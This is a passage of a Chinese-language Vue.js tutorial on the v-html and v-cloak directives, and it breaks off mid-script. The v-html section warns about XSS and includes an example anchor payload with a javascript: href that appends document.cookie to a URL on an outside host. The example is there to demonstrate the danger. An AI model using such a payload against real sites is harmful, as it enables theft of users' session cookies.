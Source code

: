 ```html
```

#### v-html
- 作用：向指定节点中渲染包含html结构的内容。
- 与插值语法的区别
  - v-html会替换掉节点中的内容，`{{x}}`不会。
  - v-html可以识别html结构。
严重注意：v-html有安全性问题！！！
  - 在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
  - 一定要在可信的内容上使用v-html,永不在用户提交的内容上。
```html
<body>
    <div id="root">
        <div v-text="str"></div>

        <div v-html="str"></div>
        <div v-html="str2"></div>
    </div>
    <script type="text/javascript">
      // document.cookie 获取所有cookie
      // 定义cookie的时候，敏感的数据一定要加 httpOnly，这样document.cookie就获取不到了
      
      const vm = new Vue({
        el:"#root", 
        data:{ 
          str:'<h3>你好</h3>',
          // str2:'<a href=javascript:alert(1)>这里有你想要的资源，快来！</a>'
          str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>这里有你想要的资源，快来！</a>'
        }
      })
    </script>

  </body>
```

#### v-cloak（没有值）
- 本质是一个特殊属性，`Vue`实例创建完毕并接管容器后，会删掉`v-cloak`属性。
- 使用`CSS`配合`v-cloak`可以解决网速慢时页面展示出`{{xxx}}`等的问题
```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8"/>
    <title>v-cloak指令</title>
    <style>
      /* 选中所有标签里有v-cloak属性的元素 */
      [v-cloak]{
        display:none;
      }
    </style>
  </head>
  <body>
    <div id="root">
        <h2 v-cloak>{{name}}</h2>
         <!-- 这个资源加载的比较慢 -->
        <script type="text/javascript" src="http://"></script>
    </div>
    <script type="text/javascript">
      // document.cookie 获取所有cookie
      // 定义cookie的时候，敏感的数据一定要加 httpOnly，这样document.cookie就获取不到了
      
      const vm = new Vue({
        el:"#root", 
```